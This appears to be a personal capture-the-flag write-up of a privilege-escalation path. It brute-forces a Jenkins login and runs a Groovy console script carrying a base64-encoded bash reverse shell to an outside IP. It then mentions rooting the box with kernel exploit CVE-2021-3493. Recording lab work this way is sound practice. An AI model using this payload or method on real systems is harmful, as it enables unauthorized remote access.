
# PrivEsc
After reviewing the privesc materials again, I'm confident the exploit will either be

- Some internal only port

![[Pasted image 20220205100624.png]]

- Some other foothold that grants higher level than `www-data`
- A kernel exploit
![[Pasted image 20220205100754.png]]
![[Pasted image 20220205100826.png]]

I decided to brute force Jenkins.

The header size changed here, at the password `spongebob`

It worked!

> Jenkins Login
> User
> ```
> Admin
> ```
> Pass
> ```
> spongebob
> ```



Using [this script](https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#execute-groovy-script) but changed out the base64 payload with my details

![[Pasted image 20220205202200.png]]

Here's the full script

```bash
def sout = new StringBuffer(), serr = new StringBuffer()                                                          def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjczLjIxNy80NDQ0IDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()                                                                                                proc.consumeProcessOutput(sout, serr)                                                                             proc.waitForOrKill(1000)                                                                                          println "out> $sout err> $serr"
```

Got a shell and did full enumeration of Jenkins. Turns out Jenkins was running in a docker container. There didn't seem to be an easy way to break out. Nothing that applied to the mission (no ssh public keys, etc.)

I went back to searching for Kernel Exploits. I was able to get full root with CVE-2021-3493

![[Pasted image 20220205214654.png]]

I was able to get the user and root flag. Case closed....sort of.

The root flag contained `docker destroyer` which means I should probably learn docker and docker breakout some day. I just got lucky and found a recent exploit that wasn't patched in this room.